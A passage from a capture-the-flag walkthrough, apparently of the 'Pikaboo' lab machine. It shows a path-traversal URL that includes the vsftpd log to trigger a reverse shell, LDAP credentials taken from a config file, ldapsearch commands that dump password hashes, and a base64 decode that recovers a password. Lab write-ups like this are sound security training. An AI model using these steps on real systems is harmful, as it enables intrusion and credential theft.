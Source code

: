 Browsing to the _vsftpd.log_:
```
http://10.10.10.249/admin../admin_staging/index.php?page=../../../../../../var/log/vsftpd.log
```

After browsing to the log file, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

In the enabled Nginx sites _/etc/nginx/sites-enabled/default_ it shows the path _/opt/pokeapi/_ which contains the source files of the Open-Source RESTful API [PokeAPI](https://github.com/PokeAPI/pokeapi).

In _config/settings.py_ are credentials for a **LDAP service**:
```
(...)
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
(...)
```

Using **ldapsearch** to enumerate the LDAP service and getting the base name:
```
ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -s base namingcontexts
```

Dumping data from the base:
```
ldapsearch -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w 'J~42%W?PFHl]g' -b "dc=htb"
```
```
# admin, htb
dn: cn=admin,dc=htb
(...)
description: LDAP administrator
userPassword:: e1NTSEF9bWxhdFNUTzJDZjZ6QjdVL2VyOVBUamtBVE5yZnJiVnE=

(...)

# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
(...)
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
```

Decoding the **Base64** password of the users:
```
echo X0cwdFQ0X0M0dGNIXyczbV80bEwhXw== | base64 -d
```
```
_G0tT4_C4tcH_'3m_4lL!_
```
